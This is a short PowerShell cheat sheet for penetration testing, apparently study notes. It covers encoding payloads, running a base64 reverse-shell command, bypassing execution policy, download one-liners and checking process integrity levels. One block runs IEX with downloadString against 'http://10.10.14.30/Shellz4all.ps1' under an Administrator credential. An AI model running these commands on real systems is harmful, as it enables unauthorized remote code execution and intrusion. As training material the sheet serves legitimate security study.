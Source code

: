 # PowerShell

# Windows-like PowerShell Base64 Format
In Kali:
```
cat filename.ps1 | iconv -t UTF-16LE | base64 -w 0
```

# Powershell Execute Reverse Shell
```
powershell -enc <base64-payload>
```
# List hidden files
```
gci -force .
```
# Use Default credentials
```
$SecPass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentList "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Shellz4all.ps1')" -Credential $cred
```


---

```
powershell -ep bypass
```
## Execution Policy
- Get current Execution Policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

- Set Execution Policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```



## Base64 using PowerShell
```
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("<command>"))
```
- Also, `pwsh` can be used in Linux environment.

## Download
```
Invoke-WebRequest -URI $URL -OutFile $Path
```
```
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
```
```
Start-BitsTransfer -Source $URL -Destination $Path
```
---
# Print Integrity level of a process
To display the integrity level of a process, we can use tools such as Process Explorer2 or third-party PowerShell modules such as NtObjectManager.3 Let's assume the latter is already installed on the system.

Once we import the module with Import-Module,4 we can use Get-NtTokenIntegrityLevel5 to display the integrity level of the current process by retrieving and reviewing the assigned access token.
```
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
